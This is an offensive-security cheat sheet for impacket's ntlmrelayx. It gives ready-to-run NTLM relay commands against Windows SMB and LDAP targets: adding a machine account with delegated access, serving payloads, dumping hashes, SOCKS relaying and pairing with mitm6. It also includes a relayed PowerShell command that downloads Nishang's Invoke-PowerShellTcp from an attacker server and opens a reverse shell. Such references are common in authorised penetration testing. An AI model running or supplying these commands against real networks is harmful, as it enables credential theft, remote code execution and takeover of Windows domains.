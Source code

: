 # ntlmrelayx (imp)

% impacket-mitm, windows, smb, 445

#plateform/linux  #target/remote #cat/ATTACK/RELAY
## add computer
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```
## host a payload that will automatically be served to the remote host connecting
#plateform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## reverseshell (nishang)
#plateform/linux #target/serve #cat/ATTACK/MITM 
Or powershell -e base64_string
```
ntlmrelayx.py -tf <targets_file> -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <rport>"
```

## socks
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## authenticate and dump hash
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## to use with mitm6 - relay to target
#plateform/linux #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## to use with mitm6 - delegate access
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
